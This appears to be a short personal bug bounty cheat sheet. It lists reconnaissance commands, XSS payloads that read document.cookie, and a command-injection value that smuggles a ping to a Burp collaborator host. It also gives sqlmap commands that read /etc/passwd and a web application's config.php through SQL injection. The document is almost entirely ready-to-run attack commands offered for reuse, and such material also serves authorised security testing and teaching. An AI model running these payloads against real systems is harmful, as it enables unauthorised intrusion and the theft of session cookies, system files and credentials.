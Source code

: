 # Bug Bounty Personal Tips

## Recon 

## HTTPX 

```/home/kali/go/bin/httpx -l FC -ss -srd /media/sf_Test/FC/screenshots/ --title --status-code -o /media/sf_Test/FC_httpx.txt ```

## XSS
```  : /"><script>alert(document.cookie)</script> ```

``` %27)+O+%22%3E%3Cscript%3Ealert(document.domain);%3C/script%3E ```

## SSRF 
``` galletita ; ping -c 1 burp.oastify.com ```

## SQLMAP
```
sqlmap -u "http://X/dashboard/dashboard.php" \
--data "search=34" \
--cookie "PHPSESSID=X" \
--batch --random-agent \
--file-read="/etc/passwd"
```

```
sqlmap -u "http://X/dashboard/dashboard.php" \
--data "search=34" \
--cookie "PHPSESSID=X" \
--batch --random-agent \
--file-read="/var/www/html/config.php"
```

### OTHERS
``` assetfinder X.com | tee -a /tmp/X.txt```

``` cat /tmp/X.txt | httprobe -p http:81 -p https:8443 -p http:8000 -p http:8001 -p http:8181 -t 40000 | tee -a /tmp/X.txt ```

```  nuclei -l p.txt -t cves/ -t default-credentials/ -o priceline_results.txt -p http://192.168.100.2:1337```

``` subfinder -d X | /home/kali/go/bin/httpx -u -status-code -title -tech-detect -follow-redirects -timeout 5 ```

``` site:*.com.ar "bug bounty" OR "vulnerability disclosure" OR "security policy" ```

